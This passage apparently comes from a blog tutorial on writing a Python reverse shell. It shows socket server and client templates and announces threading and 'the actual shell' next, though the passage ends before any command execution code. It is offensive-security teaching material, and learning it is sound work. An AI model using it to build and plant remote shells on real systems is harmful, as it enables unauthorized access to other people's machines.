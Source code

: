 ```python
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1) #allow reusing this socket for multiple connections
s.bind((host, port)) #bind to our set IP/port
s.listen(5) #  queue up as many as 5 connect requests before refusing additional connections
print(Fore.YELLOW + "[+] listening on port "+str(port), Fore.WHITE)

conn, addr = s.accept()
print(Fore.GREEN, f'\n[*] Accepted new connection from: {addr[0]}:{addr[1]}', Fore.WHITE)
```

This is a basic template for binding to your specified IP/port can be found in the code above.  That's it! The above code is all that is necessary to  bind to your IP/port and listen for remote connections. 

**The Client**
-

```python
import argparse
import socket
import subprocess
import sys
import threading
import os
import time
from win32com.shell import shell

host="127.0.0.1" # ip of the listening server we wish to connect to
port=4546 # port for the listening server we wish to connect to
    
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM) #IPV4 TCP/IP networking
try:
    client.connect((host, port)) #connect over to our server!
except:
    print("server/socket must have died...time to hop off") #self-explanatory
    os._exit(0)
```

This is a basic template for connecting to your listening server. It's even easier to write a client than it is writing the server code! 😸

**Code in Action!**

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/428f6d3e-9804-4a5d-830d-0b5ecd67a20d)
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/325823ae-4626-4b98-91d3-2855fa7c0603)

Okay...it's incredibly basic.  I get it.  Just wait...There's more. I'm using this as an opportunity to explain the basics all the way up to the actual shell being sent over to the server.  Hang in there!

**Enter-in: Python Threading!**

Now, we need a way to setup separate background "worker" threads that will receive and send data via our socket continually.  Python makes this a breeze! We will setup two threads:
